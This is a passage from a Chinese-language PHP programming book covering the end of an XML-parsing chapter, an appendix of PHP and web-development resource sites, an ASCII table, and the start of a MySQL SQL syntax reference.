$lst_actors = join($movie_actors, ",");

echo "Movie Title: <b>$movie_title</b><br>";
echo "Movie Year: <b>$movie_year</b><br>";
echo "Actor(s): <b>$lst_actors</b><br>";

echo '</body></html>';
?>
```

该程序显示：

```
Movie Title: Harvey
Movie Year: 1950
Actor(s): James Stewart,Josephine Hull,Peggy Dow,Charles Drake,Cecil Kellaway,Victoria Horne,Jesse White,William Lynn,Wallace Ford,Nana Bryant,Grayce Mills,Clem Bevans,Ida Moore,Polly Bailey,Don Brodie,Aileen Carlyle,Sally Corner,Gino Corrado,Pat Flaherty,Eula Guy,Grayce Hampton,Harry Hines,Norman Leavitt (I),Edwin Max,Anne O'Neal,Maudie Prickett,Almira Sessions,Ruthelma Stevens,Minerva Urecal,William Val,Dick Wessel,Sam Wolfe
```

## 本章小结

本章展示了如何使用可编译到 PHP 中的解析器来读取 XML 文件并提取有用信息。首先，解析 XML 输入以显示标签、属性和数据。然后，创建了第二个脚本，提取三类信息——电影片名、电影年份和主演演员的姓名。

希望你喜欢阅读本书。撰写本书很有趣，开发好的示例也是一个挑战。至此，我只还有一句话要说……编程愉快！

# 附录 A：互联网资源

如果你阅读了本书，你应该已经对 PHP 有了相当好的理解。本附录为你介绍一些资源，帮助你将理解提升到更高层次。你可以找到可以复制并修改供自己使用的 PHP 脚本以及其他有用信息。

了解 PHP 的更多途径包括：

- IRC
- 邮件列表
- 网站

以下各节分别讨论每种方式。

## IRC

Internet Relay Chat（互联网中继聊天）服务是一个强大的工具。如果你运气好，可以联系到非常有知识的人来回答你的问题；你经常会在 #php 频道找到 PHP 的创建者 Rasmus Lerdorf。IRC 的优势在于你可以与其他人进行实时对话。你提出问题，他们回答。然后你可以请求澄清，或者直接尝试他们的建议。如果你仍有问题，可以进一步询问。

多个网络支持 IRC：EfNet、Undernet 和 DALnet。PHP 高手们聚集在 EfNet 上。#php IRC 频道是提出一般性 PHP 问题的好去处。你甚至可能看到我——我的昵称是 WasWaldo。

## 邮件列表

如果你的邮件主题行经过精心构思且描述清晰，问题通常能得到快速回复。

## 网站

以下网站是扩充你资料库的好去处。此外，这些网站能让你了解已经有哪些可供使用或修改的资源。你会惊讶于可用的免费软件和共享软件之丰富。

如果你是 PHP 编程新手，请访问本章列出的每个网站。这样做能让你很好地了解有哪些资源可以帮助你成为一名出色的程序员。在访问这些网站时，记下你感兴趣的可下载的有用文件，包括其版本和日期。你也可以在 Web 浏览器中将这些网站加入书签。当你访问完所有网站后，你将知道从哪里获取最新的工具，并可以开始下载和构建自己的开发资料库。

我尽力选择了涵盖广泛技术领域的网站，包括 PHP、JavaScript、XML、数据库和通用编程问题。

### PHP：超文本预处理器

http://www.php.net/

这是 PHP 的主页。在这里你可以找到新闻、文档以及可供下载的最新版本。

### MySQL

https://www.tcx.se/

这是 MySQL 的主页。在这里你可以找到新闻、文档以及可供下载的最新版本。你可以找到该站点的许多镜像，包括 *http://www.buoy.com/mysql/*。

### PHPBuilder.com

http://www.phpbuilder.com/

仅次于 PHP 主页，这个网站可能是对 PHP 新手最有价值的网站。它的价值在于可供浏览的大量文章。这些文章包括"通过示例学习使用正则表达式"、"安装 Apache"和"使用 PHP 创建图像"。

### phpWizard.net

http://www.htmlwizard.net/

这是 phpMyAdmin 应用程序的主页——一个出色的 MySQL 管理工具。更锦上添花的是，Tobias Ratschiller 还提供了 phpAds、phpEasyMail 和 phpPolls。更不用说他称之为"小贴士"的许多代码片段了。


## PHP 基础库
http://phplib.shonline.de/index.php3

这是出色的 PHPLIB 模块的主页。

## PX：PHP 代码交换
http://px.sklar.com/

该站点拥有大量代码示例，涵盖算法、图形和财务等广泛主题。

## Developer Shed
http://www.devshed.com/
http://www.devshed.com/Server_Side/PHP/

这是另一个提供 PHP 文章和教程的站点。然而，在某些方面它超越了 phpbuilder.com，因为它还涵盖了 DHTML、MySQL 等其他技术。

## Webmasters Net 上的 PHP 资源
http://www.thewebmasters.net/php/

用站长自己的话说："我正在愉快地将 Perl 模块移植到 PHP。（我就是喜欢挑战不可能的任务 :)）一旦 Perl 模块中的原始功能在 PHP 类中可用，我就会发布它们。目前我只移植了我实际使用或有需要的模块。也许这应该成为更大项目的一部分？如果你认为应该这样做，请告诉我，更重要的是，告诉我你是否能帮忙。:) 如果有足够的兴趣，我很乐意在 PHP Codebase 上启动一个项目。"

## php.codebase.org
http://php.codebase.org/content/default/index.html

同样引用站长的话："php.codebase.org 旨在通过及时的新闻、文章和教程、项目和代码示例、文档、邮件列表和讨论论坛来支持 PHP 开发社区。因此，如果你对 PHP 认真，不妨四处看看——我们确信你会找到你想要的东西。"

## FishCartSQL
http://www.fishcart.org/

引用站长的话："FishCartSQL(sm) 是一个开源的在线电子商务目录管理系统；它自 1998 年 1 月起一直在积极使用中。一些主要优势包括多并行目录、多语言、定时促销、关联 ID 追踪以及基于 Web 的目录维护。FishCartSQL(sm) 的订单输出可以适配到现有的订单处理系统中，从而不会影响现有系统。"

## VH Consultants
http://www.vhconsultants.com/index.htm

这家咨询公司向 PHP 社区免费提供 PHP_Layout、PHP_Graph、PHP_NNRP 和 PHP_PDF。

## PHP Classes Repository
http://phpclasses.UpperDesign.com/

引用站长的话："PHP Classes Repository 是一项实验性服务，旨在成为使用 Web 脚本语言 PHP 编写的免费编程类对象的分发手段。该服务的目标是构建可在 PHP 编写的 Web 应用程序中使用的编程组件库。"

## Midgard
http://midgard.greywolves.org/

引用站长的话："Midgard 是一个基于流行的 PHP 脚本语言的免费 Web 应用开发和发布平台。它是一个开源开发项目，让你在开放环境中自由创建解决方案。Midgard 是用于创建、修改和维护支持动态数据库的 Web 服务的工具。"

## Berber 的 Web 开发页面
http://webdev.berber.co.il/

该站点包含关于 ASP、JavaScript、Perl 和 PHP 的信息。

## PCC 邮件列表存档
http://207.98.221.253/Lists/
http://207.98.221.253/Lists/?l=php-dev&r=1&w=2#php-dev
http://207.98.221.253/Lists/?l=php3-general&r=1&w=2#php3-general

该站点提供了许多邮件列表的存档。你可能最感兴趣的是 php-dev 和 php-general 列表。

## Yahoo
http://www.yahoo.com

搜索信息或文件的最佳起点之一是 Yahoo。这是 Web 上组织更好、更全面的搜索站点之一。

Yahoo 有 PHP 和 CGI 的独立分类。PHP 页面如下（所有行组成一个 URL）
http://dir.yahoo.com/Computers_and_Internet/Software/Internet/World_Wide_Web/Servers/Server_Side_Scripting/PHP__Hypertext_Preprocessor/

CGI 页面如下
http://dir.yahoo.com/Computers_and_Internet/Internet/World_Wide_Web/CGI___Common_Gateway_Interface/

## The Web Developer's Virtual Library
http://www.stars.com/

该站点是一个非常全面的资源，被站点称为"Web 开发者百科全书"。这里有许多关于 HTML、CGI、HTTP、数据库和样式指南的教程。该站点是极其丰富的链接源，涵盖你能想到的几乎所有与 Web 开发相关的主题。绝对是必访之处——尤其是当你有时间进行链接跳转和探索，或者需要查找 Web 开发资源时。

## Philip 和 Alex 的 Web 发布指南
http://www.photo.net/wtr/thebook/

我对 Philip Greenspun 非常钦佩。这本发布指南非常值得一读。事实上，你应该从 *http://www.photo.net/* 开始，然后在站点中随意浏览。注意每页底部附加的许多用户评论。也留下你自己的评论吧。

## 基于数据库的 Web 站点
http://www.photo.net/wtr/dead-trees/

我列出这本同样由 Philip Greenspun 撰写的在线书籍，以防你在阅读 Greenspun 先生的 Web 发布指南时没有偶然发现它。它的另一个标题是 *How to be a Web Whore Just Like Me*（《如何成为像我一样的 Web 女郎》）——这只是 Greenspun 先生幽默感的一小部分。

## 通用网关接口（CGI）简介
http://www.virtualville.com/library/cgi.html

该站点解释了 CGI 规范的工作原理，并提供了一组指向其他资源的优质链接。

## NCSA 的 CGI 文档
http://hoohoo.ncsa.uiuc.edu/docs/cgi/

如果你想学习某些知识，有时你只需回到源头。该站点提供了 CGI 概述。它还包括编写安全 CGI 脚本的技巧，这是 CGI 程序员必须始终关注的主题。

## Freshmeat
http://www.freshmeat.net

一个了解最新软件应用程序和新版本发布的绝佳场所。

## Slashdot
http://www.slashdot.org/

该站点在展示与 Linux 相关的突发新闻方面似乎是最佳的。

## JCC 的 SQL 标准页面
http://www.jcc.com/SQLPages/jccs_sql.htm

该页面旨在成为有关 SQL 标准进程及其当前状态的信息中心。它包含许多指向其他 SQL 标准信息来源的指引。

## Ask the SQL Pros
http://www.inquiry.com/
http://www.inquiry.com/techtips/thesqlpro/

点击左侧导航栏的 Q&A 链接。重点是 SQL Server，但许多信息也适用于其他数据库。

## Web Links for Information Systems: A Management Approach
http://faculty.babson.edu/gordon/ispages/chapt7.htm

标题说明了一切。

## E-Business Advisor Online
http://www.advisor.com/db.htm

这本在线杂志汇集了商业信息和相关数据库文章的精选内容。

## Intelligent Enterprise
http://www.intelligententerprise.com/

这本在线杂志专注于企业计算。该网站的瑰宝是 Joe Celko 的文章，他对 SQL 的掌握令人惊叹。

## 标准文档来源
http://www-library.itsi.disa.mil/org/std_src.html

你可能永远不需要这个站点。但如果你真的需要了解某个标准的具体细节，这里就是你要去的地方。

# ASCII 表

表 B.1 列出了所有 ASCII 字符（最后一列）及其对应的数值。一些 ASCII 字符在我的计算机显示器上是不可打印的。你可能使用不同的字体，可能会得到略有不同的结果。

# 表 B.1 ASCII 表

| 十进制 | 十六进制 | 二进制 | ASCII 字符及描述 |
| --- | --- | --- | --- |
| 000 | 0x00 | 0000 0000 |  |
| 001 | 0x01 | 0000 0001 | ^A |
| 002 | 0x02 | 0000 0010 | ^B |
| 003 | 0x03 | 0000 0011 | ^C |
| 004 | 0x04 | 0000 0100 | ^D 文件结束 |
| 005 | 0x05 | 0000 0101 | ^E |
| 006 | 0x06 | 0000 0110 | ^F |
| 007 | 0x07 | 0000 0111 | ^G 响铃 |
| 008 | 0x08 | 0000 1000 | ^H 退格 |
| 009 | 0x09 | 0000 1001 | ^I 制表符 |
| 010 | 0x0a | 0000 1010 | ^J 回车 |
| 011 | 0x0b | 0000 1011 | ^K |
| 012 | 0x0c | 0000 1100 | ^L 换页 |
| 013 | 0x0d | 0000 1101 | ^M 换行 |
| 014 | 0x0e | 0000 1110 | ^N |
| 015 | 0x0f | 0000 1111 | ^O |
| 016 | 0x10 | 0001 0000 | ^P |
| 017 | 0x11 | 0001 0001 | ^Q |
| 018 | 0x12 | 0001 0010 | ^R |
| 019 | 0x13 | 0001 0011 | ^S |
| 020 | 0x14 | 0001 0100 | ^T |
| 021 | 0x15 | 0001 0101 | ^U |
| 022 | 0x16 | 0001 0110 | ^V |


## 表 B.1 ASCII 表（续）

| 十进制 | 十六进制 | 二进制 | ASCII 字符 |
|---------|-------------|--------|-----------------|
| 023 | 0x17 | 0001 0111 | `^W` |
| 024 | 0x18 | 0001 1000 | `^X` |
| 025 | 0x19 | 0001 1001 | `^Y` |
| 026 | 0x1a | 0001 1010 | `^Z` |
| 027 | 0x1b | 0001 1011 | `ESC` |
| 028 | 0x1c | 0001 1100 | `^\` |
| 029 | 0x1d | 0001 1101 | `^]` |
| 030 | 0x1e | 0001 1110 | `^^` |
| 031 | 0x1f | 0001 1111 | `^_` |
| 032 | 0x20 | 0010 0000 | `space` |
| 033 | 0x21 | 0010 0001 | `!` |
| 034 | 0x22 | 0010 0010 | `"` |
| 035 | 0x23 | 0010 0011 | `#` |
| 036 | 0x24 | 0010 0100 | `$` |
| 037 | 0x25 | 0010 0101 | `%` |
| 038 | 0x26 | 0010 0110 | `&` |
| 039 | 0x27 | 0010 0111 | `'` |
| 040 | 0x28 | 0010 1000 | `(` |
| 041 | 0x29 | 0010 1001 | `)` |
| 042 | 0x2a | 0010 1010 | `*` |
| 043 | 0x2b | 0010 1011 | `+` |
| 044 | 0x2c | 0010 1100 | `,` |
| 045 | 0x2d | 0010 1101 | `-` |
| 046 | 0x2e | 0010 1110 | `.` |
| 047 | 0x2f | 0010 1111 | `/` |
| 048 | 0x30 | 0011 0000 | `0` |
| 049 | 0x31 | 0011 0001 | `1` |
| 050 | 0x32 | 0011 0010 | `2` |
| 051 | 0x33 | 0011 0011 | `3` |
| 052 | 0x34 | 0011 0100 | `4` |
| 053 | 0x35 | 0011 0101 | `5` |
| 054 | 0x36 | 0011 0110 | `6` |
| 055 | 0x37 | 0011 0111 | `7` |
| 056 | 0x38 | 0011 1000 | `8` |
| 057 | 0x39 | 0011 1001 | `9` |
| 058 | 0x3a | 0011 1010 | `:` |
| 059 | 0x3b | 0011 1011 | `;` |
| 060 | 0x3c | 0011 1100 | `<` |
| 061 | 0x3d | 0011 1101 | `=` |
| 062 | 0x3e | 0011 1110 | `>` |
| 063 | 0x3f | 0011 1111 | `?` |
| 064 | 0x40 | 0100 0000 | `@` |
| 065 | 0x41 | 0100 0001 | `A` |
| 066 | 0x42 | 0100 0010 | `B` |
| 067 | 0x43 | 0100 0011 | `C` |
| 068 | 0x44 | 0100 0100 | `D` |
| 069 | 0x45 | 0100 0101 | `E` |
| 070 | 0x46 | 0100 0110 | `F` |
| 071 | 0x47 | 0100 0111 | `G` |
| 072 | 0x48 | 0100 1000 | `H` |
| 073 | 0x49 | 0100 1001 | `I` |
| 074 | 0x4a | 0100 1010 | `J` |
| 075 | 0x4b | 0100 1011 | `K` |
| 076 | 0x4c | 0100 1100 | `L` |
| 077 | 0x4d | 0100 1101 | `M` |
| 078 | 0x4e | 0100 1110 | `N` |
| 079 | 0x4f | 0100 1111 | `O` |
| 080 | 0x50 | 0101 0000 | `P` |
| 081 | 0x51 | 0101 0001 | `Q` |
| 082 | 0x52 | 0101 0010 | `R` |
| 083 | 0x53 | 0101 0011 | `S` |
| 084 | 0x54 | 0101 0100 | `T` |
| 085 | 0x55 | 0101 0101 | `U` |
| 086 | 0x56 | 0101 0110 | `V` |
| 087 | 0x57 | 0101 0111 | `W` |
| 088 | 0x58 | 0101 1000 | `X` |
| 089 | 0x59 | 0101 1001 | `Y` |
| 090 | 0x5a | 0101 1010 | `Z` |
| 091 | 0x5b | 0101 1011 | `[` |
| 092 | 0x5c | 0101 1100 | `\` |
| 093 | 0x5d | 0101 1101 | `]` |
| 094 | 0x5e | 0101 1110 | `^` |
| 095 | 0x5f | 0101 1111 | `_` |
| 096 | 0x60 | 0110 0000 | `` ` `` |
| 097 | 0x61 | 0110 0001 | `a` |
| 098 | 0x62 | 0110 0010 | `b` |
| 099 | 0x63 | 0110 0011 | `c` |
| 100 | 0x64 | 0110 0100 | `d` |
| 101 | 0x65 | 0110 0101 | `e` |
| 102 | 0x66 | 0110 0110 | `f` |
| 103 | 0x67 | 0110 0111 | `g` |
| 104 | 0x68 | 0110 1000 | `h` |
| 105 | 0x69 | 0110 1001 | `i` |
| 106 | 0x6a | 0110 1010 | `j` |
| 107 | 0x6b | 0110 1011 | `k` |
| 108 | 0x6c | 0110 1100 | `l` |
| 109 | 0x6d | 0110 1101 | `m` |
| 110 | 0x6e | 0110 1110 | `n` |
| 111 | 0x6f | 0110 1111 | `o` |
| 112 | 0x70 | 0111 0000 | `p` |
| 113 | 0x71 | 0111 0001 | `q` |
| 114 | 0x72 | 0111 0010 | `r` |
| 115 | 0x73 | 0111 0011 | `s` |
| 116 | 0x74 | 0111 0100 | `t` |
| 117 | 0x75 | 0111 0101 | `u` |
| 118 | 0x76 | 0111 0110 | `v` |
| 119 | 0x77 | 0111 0111 | `w` |
| 120 | 0x78 | 0111 1000 | `x` |
| 121 | 0x79 | 0111 1001 | `y` |
| 122 | 0x7a | 0111 1010 | `z` |
| 123 | 0x7b | 0111 1011 | `{` |
| 124 | 0x7c | 0111 1100 | `\|` |
| 125 | 0x7d | 0111 1101 | `}` |
| 126 | 0x7e | 0111 1110 | `~` |
| 127 | 0x7f | 0111 1111 | 不可打印 |
| 128 | 0x80 | 1000 0000 | 不可打印 |
| 129 | 0x81 | 1000 0001 | 不可打印 |
| 130 | 0x82 | 1000 0010 | 不可打印 |
| 131 | 0x83 | 1000 0011 | 不可打印 |
| 132 | 0x84 | 1000 0100 | 不可打印 |
| 133 | 0x85 | 1000 0101 | 不可打印 |
| 134 | 0x86 | 1000 0110 | 不可打印 |
| 135 | 0x87 | 1000 0111 | 不可打印 |
| 136 | 0x88 | 1000 1000 | 不可打印 |
| 137 | 0x89 | 1000 1001 | 不可打印 |
| 138 | 0x8a | 1000 1010 | 不可打印 |
| 139 | 0x8b | 1000 1011 | 不可打印 |
| 140 | 0x8c | 1000 1100 | 不可打印 |
| 141 | 0x8d | 1000 1101 | 不可打印 |
| 142 | 0x8e | 1000 1110 | 不可打印 |
| 143 | 0x8f | 1000 1111 | 不可打印 |
| 144 | 0x90 | 1001 0000 | 不可打印 |
| 145 | 0x91 | 1001 0001 | 不可打印 |
| 146 | 0x92 | 1001 0010 | 不可打印 |
| 147 | 0x93 | 1001 0011 | 不可打印 |
| 148 | 0x94 | 1001 0100 | 不可打印 |
| 149 | 0x95 | 1001 0101 | 不可打印 |
| 150 | 0x96 | 1001 0110 | 不可打印 |
| 151 | 0x97 | 1001 0111 | 不可打印 |
| 152 | 0x98 | 1001 1000 | 不可打印 |
| 153 | 0x99 | 1001 1001 | 不可打印 |
| 154 | 0x9a | 1001 1010 | 不可打印 |
| 155 | 0x9b | 1001 1011 | 不可打印 |
| 156 | 0x9c | 1001 1100 | 不可打印 |
| 157 | 0x9d | 1001 1101 | 不可打印 |
| 158 | 0x9e | 1001 1110 | 不可打印 |
| 159 | 0x9f | 1001 1111 | 不可打印 |
| 160 | 0xa0 | 1010 0000 | 不可打印 |
| 161 | 0xa1 | 1010 0001 | `¡` |
| 162 | 0xa2 | 1010 0010 | `¢` |
| 163 | 0xa3 | 1010 0011 | `£` |
| 164 | 0xa4 | 1010 0100 | 不可打印 |
| 165 | 0xa5 | 1010 0101 | `¥` |
| 166 | 0xa6 | 1010 0110 | 不可打印 |
| 167 | 0xa7 | 1010 0111 | `§` |
| 168 | 0xa8 | 1010 1000 | `¨` |
| 169 | 0xa9 | 1010 1001 | `©` |
| 170 | 0xaa | 1010 1010 | `ª` |
| 171 | 0xab | 1010 1011 | `«` |
| 172 | 0xac | 1010 1100 | `¬` |
| 173 | 0xad | 1010 1101 | `­` |
| 174 | 0xae | 1010 1110 | `®` |
| 175 | 0xaf | 1010 1111 | 不可打印 |
| 176 | 0xb0 | 1011 0000 | `°` |
| 177 | 0xb1 | 1011 0001 | `±` |
| 178 | 0xb2 | 1011 0010 | `²` |
| 179 | 0xb3 | 1011 0011 | 不可打印 |
| 180 | 0xb4 | 1011 0100 | 不可打印 |
| 181 | 0xb5 | 1011 0101 | `µ` |
| 182 | 0xb6 | 1011 0110 | `¶` |
| 183 | 0xb7 | 1011 0111 | `·` |
| 184 | 0xb8 | 1011 1000 | `¸` |
| 185 | 0xb9 | 1011 1001 | 不可打印 |
| 186 | 0xba | 1011 1010 | `º` |
| 187 | 0xbb | 1011 1011 | `»` |
| 188 | 0xbc | 1011 1100 | 不可打印 |
| 189 | 0xbd | 1011 1101 | 不可打印 |
| 190 | 0xbe | 1011 1110 | 不可打印 |
| 191 | 0xbf | 1011 1111 | `¿` |
| 192 | 0xc0 | 1100 0000 | `À` |
| 193 | 0xc1 | 1100 0001 | `Á` |
| 194 | 0xc2 | 1100 0010 | `Â` |
| 195 | 0xc3 | 1100 0011 | `Ã` |
| 196 | 0xc4 | 1100 0100 | `Ä` |
| 197 | 0xc5 | 1100 0101 | `Å` |
| 198 | 0xc6 | 1100 0110 | `Æ` |
| 199 | 0xc7 | 1100 0111 | `Ç` |
| 200 | 0xc8 | 1100 1000 | `È` |
| 201 | 0xc9 | 1100 1001 | `É` |
| 202 | 0xca | 1100 1010 | `Ê` |
| 203 | 0xcb | 1100 1011 | `Ë` |
| 204 | 0xcc | 1100 1100 | `Ì` |
| 205 | 0xcd | 1100 1101 | `Í` |
| 206 | 0xce | 1100 1110 | `Î` |
| 207 | 0xcf | 1100 1111 | `Ï` |
| 208 | 0xd0 | 1101 0000 | 不可打印 |
| 209 | 0xd1 | 1101 0001 | `Ñ` |
| 210 | 0xd2 | 1101 0010 | `Ò` |
| 211 | 0xd3 | 1101 0011 | `Ó` |
| 212 | 0xd4 | 1101 0100 | `Ô` |
| 213 | 0xd5 | 1101 0101 | `Õ` |
| 214 | 0xd6 | 1101 0110 | `Ö` |
| 215 | 0xd7 | 1101 0111 | `×` |
| 216 | 0xd8 | 1101 1000 | `Ø` |
| 217 | 0xd9 | 1101 1001 | `Ù` |
| 218 | 0xda | 1101 1010 | `Ú` |
| 219 | 0xdb | 1101 1011 | `Û` |
| 220 | 0xdc | 1101 1100 | `Ü` |
| 221 | 0xdd | 1101 1101 | `Ý` |
| 222 | 0xde | 1101 1110 | 不可打印 |
| 223 | 0xdf | 1101 1111 | `ß` |
| 224 | 0xe0 | 1110 0000 | `à` |
| 225 | 0xe1 | 1110 0001 | `á` |
| 226 | 0xe2 | 1110 0010 | `â` |
| 227 | 0xe3 | 1110 0011 | `ã` |
| 228 | 0xe4 | 1110 0100 | `ä` |
| 229 | 0xe5 | 1110 0101 | `å` |
| 230 | 0xe6 | 1110 0110 | `æ` |
| 231 | 0xe7 | 1110 0111 | `ç` |
| 232 | 0xe8 | 1110 1000 | `è` |
| 233 | 0xe9 | 1110 1001 | `é` |


## 表 B.1 *ASCII 表*（续）

| 十进制 | 十六进制 | 二进制 | ASCII 字符 |
|---------|-------------|--------|-----------------|
| 234 | 0xea | 1110 1010 | ê |
| 235 | 0xeb | 1110 1011 | ë |
| 236 | 0xec | 1110 1100 | ì |
| 237 | 0xed | 1110 1101 | í |
| 238 | 0xee | 1110 1110 | î |
| 239 | 0xef | 1110 1111 | ï |
| 240 | 0xf0 | 1111 0000 | \- |
| 241 | 0xf1 | 1111 0001 | ñ |
| 242 | 0xf2 | 1111 0010 | ò |
| 243 | 0xf3 | 1111 0011 | ó |
| 244 | 0xf4 | 1111 0100 | ô |
| 245 | 0xf5 | 1111 0101 | õ |
| 246 | 0xf6 | 1111 0110 | ö |
| 247 | 0xf7 | 1111 0111 | ÷ |
| 248 | 0xf8 | 1111 1000 | ø |
| 249 | 0xf9 | 1111 1001 | ù |
| 250 | 0xfa | 1111 1010 | ú |
| 251 | 0xfb | 1111 1011 | û |
| 252 | 0xfc | 1111 1100 | ü |
| 253 | 0xfd | 1111 1101 | ý |
| 254 | 0xfe | 1111 1110 | 不可打印 |
| 255 | 0xff | 1111 1111 | ÿ |

# SQL 参考

本附录列出了 MySQL 数据库引擎所理解的 SQL 语法、运算符和函数。

## MySQL 的 SQL 语句

MySQL 对 SQL 有若干独特的扩展。了解可用的全部语法范围始终很重要。

### ALTER TABLE

```
ALTER [IGNORE] TABLE tbl_name alter_spec [, alter_spec ...]
```

**alter_specification:**

```
ADD [COLUMN] create_definition [FIRST | AFTER column_name ]
Or ADD INDEX [index_name] (index_col_name,...)
Or ADD PRIMARY KEY (index_col_name,...)
Or ADD UNIQUE [index_name] (index_col_name,...)
Or ALTER [COLUMN] col_name {SET DEFAULT literal | DROP DEFAULT}
Or CHANGE [COLUMN] old_col_name create_definition
Or MODIFY [COLUMN] create_definition
Or DROP [COLUMN] col_name
Or DROP PRIMARY KEY
Or DROP INDEX key_name
Or RENAME [AS] new_tbl_name
Or table_option
```

### CREATE DATABASE

```
CREATE DATABASE db_name
```

### CREATE FUNCTION

```
CREATE FUNCTION function_name RETURNS {STRING|REAL|INTEGER}
    SONAME shared_library_name
```

### CREATE INDEX

```
CREATE [UNIQUE] INDEX index_name ON tbl_name
    (col_name[(length)],...)
```

### CREATE TABLE

```
CREATE TABLE [IF NOT EXISTS] tbl_name
    (create_definition,...) [table_options]
    [select_statement]
```

**create_definition:**

```
col_name type [NOT NULL | NULL] [DEFAULT default_value]
    [AUTO_INCREMENT] [PRIMARY KEY] [reference_definition]
Or PRIMARY KEY (index_col_name,...)
Or KEY [index_name] KEY(index_col_name,...)
Or INDEX [index_name] (index_col_name,...)
Or UNIQUE [INDEX] [index_name] (index_col_name,...)
Or [CONSTRAINT symbol] FOREIGN KEY index_name
    (index_col_name,...) [reference_definition]
Or CHECK (expr)
```

**type:**

```
TINYINT[(length)] [UNSIGNED] [ZEROFILL]
or SMALLINT[(length)] [UNSIGNED] [ZEROFILL]
or MEDIUMINT[(length)] [UNSIGNED] [ZEROFILL]
or INT[(length)] [UNSIGNED] [ZEROFILL]
or INTEGER[(length)] [UNSIGNED] [ZEROFILL]
or BIGINT[(length)] [UNSIGNED] [ZEROFILL]
or REAL[(length,decimals)] [UNSIGNED] [ZEROFILL]
or DOUBLE[(length,decimals)] [UNSIGNED] [ZEROFILL]
or FLOAT[(length,decimals)] [UNSIGNED] [ZEROFILL]
or DECIMAL(length,decimals) [UNSIGNED] [ZEROFILL]
or NUMERIC(length,decimals) [UNSIGNED] [ZEROFILL]
or CHAR(length) [BINARY]
or VARCHAR(length) [BINARY]
or DATE
or TIME
or TIMESTAMP
or DATETIME
or TINYBLOB
or BLOB
or MEDIUMBLOB
or LONGBLOB
or TINYTEXT
or TEXT
or MEDIUMTEXT
or LONGTEXT
or ENUM(value1,value2,value3,...)
or SET(value1,value2,value3,...)
```

**index_col_name:**

```
col_name [(length)]
```

**reference_definition:**

```
REFERENCES tbl_name [(index_col_name,...)]
    [MATCH FULL | MATCH PARTIAL]
    [ON DELETE reference_option]
    [ON UPDATE reference_option]
```

**reference_option:**

```
RESTRICT | CASCADE | SET NULL | NO ACTION | SET DEFAULT
```

**table_options:**

```
type = [ISAM | MYISAM | HEAP]
or auto_increment = #
or avg_row_length = #
or checksum = [0 | 1]
or comment = "string"
or max_rows = #
or min_rows = #
or pack_keys = [0 | 1]
or password= "string"
```

**select_statement:**

```
[ | IGNORE | REPLACE] SELECT ...
    (Some legal select statement)
```

### DELETE

```
DELETE [LOW_PRIORITY] FROM tbl_name
    [WHERE where_definition] [LIMIT rows]
```

### DESCRIBE

```
{DESCRIBE | DESC} tbl_name {col_name | wild}
```

### DROP DATABASE

```
DROP DATABASE [IF EXISTS] db_name
```

### DROP FUNCTION

```
DROP FUNCTION function_name
```

### DROP INDEX

```
DROP INDEX index_name
```

### DROP TABLE

```
DROP TABLE [IF EXISTS] tbl_name [, tbl_name,...]
```

### EXPLAIN

```
EXPLAIN SELECT select_options
```

### FLUSH

```
FLUSH flush_option [,flush_option]
```

### GRANT

```
GRANT priv_type [(column_list)] [, priv_type
    [(column_list)] ...]
ON {tbl_name | * | *.* | db_name.*}
TO user_name [IDENTIFIED BY 'password']
   [, user_name [IDENTIFIED BY 'password'] ...]
[WITH GRANT OPTION]
```

### INSERT

```
INSERT [LOW_PRIORITY | DELAYED] [IGNORE]
  [INTO] tbl_name [(col_name,...)]
  VALUES (expression,...),(...),...
```

```
or INSERT [LOW_PRIORITY | DELAYED] [IGNORE]
  [INTO] tbl_name [(col_name,...)]
  SELECT ...
```

```
or INSERT [LOW_PRIORITY | DELAYED] [IGNORE]
  [INTO] tbl_name
  SET col_name=expression, col_name=expression, ...
```

### KILL

```
KILL thread_id
```

### LOAD DATA INFILE

```
LOAD DATA [LOCAL] INFILE 'file_name.txt' [REPLACE | IGNORE]
  INTO TABLE tbl_name
  [FIELDS
     [TERMINATED BY '\t']
     [OPTIONALLY] ENCLOSED BY '"']
     [ESCAPED BY '\\' ]]
  [LINES TERMINATED BY '\n']
  [IGNORE number LINES]
  [(col_name,...)]
```

### LOCK TABLES

```
LOCK TABLES tbl_name [AS alias] {READ | [LOW_PRIORITY]
  WRITE} [, tbl_name {READ | [LOW_PRIORITY] WRITE} ...]
```

### OPTIMIZE TABLE

```
OPTIMIZE TABLE tbl_name
```

### REPLACE

```
REPLACE [LOW_PRIORITY | DELAYED]
  [INTO] tbl_name [(col_name,...)]
  VALUES (expression,...)
```

```
or REPLACE [LOW_PRIORITY | DELAYED]
    [INTO] tbl_name [(col_name,...)]
    SELECT ...
```

```
or REPLACE [LOW_PRIORITY | DELAYED]
    [INTO] tbl_name
    SET col_name=expression, col_name=expression,....
```

### REVOKE

```
REVOKE priv_type [(column_list)] [, priv_type
    [(column_list)] ...]
ON {tbl_name | * | *.* | db_name.*}
FROM user_name [, user_name ...]
```

### SELECT

```
SELECT [STRAIGHT_JOIN] [SQL_SMALL_RESULT]
    [DISTINCT | DISTINCTROW | ALL]

    select_expression,...
    [INTO OUTFILE 'file_name' export_options]
    [FROM table_references
    [WHERE where_definition]
    [GROUP BY col_name,...]
    [HAVING where_definition]
    [ORDER BY {unsigned_integer | col_name}
        [ASC | DESC],...]
    [LIMIT [offset,] rows]
    [PROCEDURE procedure_name] ]
```

**连接语法：**

```
table_reference, table_reference
table_reference [CROSS] JOIN table_reference
table_reference STRAIGHT_JOIN table_reference
table_reference LEFT [OUTER] JOIN table_reference ON
    conditional_expr
table_reference LEFT [OUTER] JOIN table_reference USING
    (column_list)
table_reference NATURAL LEFT [OUTER] JOIN
    table_reference
{ oj table_reference LEFT OUTER JOIN table_reference ON
    conditional_expr }
```

### SET

```
SET [OPTION] SQL_VALUE_OPTION= value, ...
```

### SHOW

```
SHOW DATABASES [LIKE wild]
or SHOW TABLES [FROM db_name] [LIKE wild]
or SHOW COLUMNS FROM tbl_name [FROM db_name] [LIKE wild]
or SHOW INDEX FROM tbl_name [FROM db_name]
or SHOW STATUS
or SHOW VARIABLES [LIKE wild]
or SHOW PROCESSLIST
or SHOW TABLE STATUS [FROM db_name] [LIKE wild]
```

### UNLOCK TABLES

```
UNLOCK TABLES
```

### UPDATE

```
UPDATE [LOW_PRIORITY] tbl_name SET
    col_name1=expr1,col_name2=expr2,...
    [WHERE where_definition]
```

### USE

```
USE db_name
```

## MySQL 的运算符

与大多数计算机语言一样，MySQL 理解许多运算符。以下列表对其进行了总结：

**表 C.1 MySQL 的运算符**

| 运算符 | 类型 | 描述 |
|----------|------|-------------|
| ( expr ) | 分组 | 将运算符和操作数分组在一起，以影响其优先顺序。 |
